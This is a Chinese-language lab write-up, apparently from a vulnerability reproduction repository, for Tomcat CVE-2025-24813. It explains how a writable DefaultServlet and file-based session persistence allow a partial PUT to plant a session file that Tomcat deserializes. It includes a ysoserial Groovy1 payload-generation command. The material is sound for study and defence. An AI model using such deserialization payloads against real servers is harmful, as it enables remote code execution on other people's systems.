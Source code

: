 # Tomcat PUT方法临时文件session反序列化漏洞 (CVE-2025-24813)

Tomcat版本：9.0.98

## 环境搭建

```
docker compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。
![tomcat](1.png)

## 漏洞原理

漏洞本质是Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```
并且配置了session持久化到默认目录：
```xml
<Manager className="org.apache.catalina.session.PersistentManager">
        <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```
- 我们写入的文件是不会进入到默认目录的，而是会上传到webapps目录.  
- 但是tomcat在处理分段写文件时，会将分段的数据写入到session默认目录，并将`/` 转化为 `.` 作为默认文件名.从而导致可向session默认目录写入任意.开头的session文件，进行session反序列化.
- 本攻击依赖带有反序列化的依赖，此处使用`groovy-2.3.9.jar`作为漏洞依赖.

## 漏洞复现
使用 ysoserial 生成 payload:
```shell
java -jar ysoserial-all.jar Groovy1 "touch /tmp/success" > test.session
```

## 参考链接
- https://forum.butian.net/article/674
- https://tech.ec3o.fun/2025/03/12/Web-Vulnerability%20Reproduction/CVE-2025-24813/